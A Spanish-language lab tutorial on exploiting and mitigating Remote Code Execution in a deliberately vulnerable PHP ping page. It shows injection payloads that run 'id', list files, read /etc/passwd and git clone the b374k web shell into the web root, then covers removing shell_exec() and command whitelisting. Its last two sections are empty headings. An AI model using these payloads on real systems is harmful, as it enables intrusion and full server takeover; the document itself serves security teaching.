 # Explotación y Mitigación de Remote Code Execution (RCE)

De forma sencilla el ***RCE*** es una vulnerabilidad en la que un servicio web permite hacer una inyección de lenguaje scripting básico, permitiendo a un atacante ejecutar comando sobre el servidor que contiene en servicio web.

El resultado de esos comandos se muestra en la misma página de forma dinámica.

Algunas de las consecuencias que tiene el *RCE*:

+ Acceso a información sensible (usuarios, archivos, configuración).
+ Ejecución de comandos maliciosos (descarga y ejecución de malware).
+ Escalada de privilegios y control total del sistema.

## Indice
> 1. [Creación de página vulnerable a RCE](#)  
> 2. [Mitigaciones de RCE](#)  
> &nbsp;&nbsp;&nbsp;&nbsp;2.1 [Eliminar el uso de shell_exec()](#)  
> &nbsp;&nbsp;&nbsp;&nbsp;2.2 [Listas blancas](#)  
> &nbsp;&nbsp;&nbsp;&nbsp;2.3 [Ejecutar Comandos con Escapes Seguros](#)  
> &nbsp;&nbsp;&nbsp;&nbsp;2.4 [Prueba final](#)  

## Creación de página vulnerable a RCE

Vamos a crear una pequeña página llamada: [rce.php](./Recursos/rce.php) con un input que va a recibir una dirección ip y se va a encargar de hacer ping a ella:

![RCE.php](./Imagenes/1.png)

El uso legítimo de la página es recibir una dirección ip y te muestra el resultado del ping:

![ping](./Imagenes/2.png)

Vamos a probar a introducir el comando ***id*** anidado a una dirección ip de la siguiente manera:

```
8.8.8.8 & id
```

Devueve el resultado del ping y ademas devuelve el resultado del comando id:

![ping](./Imagenes/3.png)

Ahora vamos a listar archivos:

![ping](./Imagenes/4.png)

Vamos a leer el contenido de ***/etc/passwd***:

![ping](./Imagenes/5.png)

Ahora vamos a realizar la prueba de intentar ejecutar malware:

Primero le damos permisos a */var/www/html* en nuestro contenedor:

```
sudo chmod -R 777 /var/www/html/
```
Y ahora intentamos descargarnos el malware desde un repositorio de git:

```
8.8.8.8 & git clone https://github.com/b374k/b374k.git /var/www/html/b374k
```


Al ejecutarse se habra descargado la carpeta **b374k** y dentro de ella varios archivos, entre ellos, **index.html** , que si accedemos a el pode¡remos ejecutar los comandos que queramos:

![ping](./Imagenes/6.png)

![ping](./Imagenes/7.png)

Ya tendriamos el control total del sistema.

## Mitigaciones de RCE


Una vez explotadas la vulnerabilidades vamos a ver como mitigarlas:


Creamos el siguiente archivo llamado [rce2.php](./Recursos/rce2.php) que espera recibir un comando por parámetro por url:


![rce2.php](./Imagenes/8.png)

### Eliminar el uso de shell_exec()

Una forma de mitigación es eliminar la posibilidad de ejecutar comandos eliminando ***shell_exec()***, para ello creamos el archivo [rce3.php](./Recursos/rce3.php):

![rce3.php](./Imagenes/9.png)

Los beneficios de eliminar *shell_exec()* son:

+ Bloquea cualquier intento de ejecución de código en el sistema.
+ Evita ataques RCE de forma definitiva.
+ No necesita más medidas de seguridad, ya que la ejecución de comandos es eliminada.

### Listas blancas

También podemos hacer uso de listas blancas si necesitamos hacer uso de algunos comandos:

Creamos un fichero [rce4.php](./Recursos/rce4.php) con los comandos permitidos '***ls***', '***whoami***' y '***pwd***':

![rce4.php](./Imagenes/10.png)

Si probamos a pasarle un comando de los permitidos funciona:

![rce4.php](./Imagenes/11.png)

En cambio, si introducimos un comando no permitido, nos indica que el comando no esta permitido;

![rce4.php](./Imagenes/12.png)

### Ejecutar Comandos con Escapes Seguros


### Prueba Final
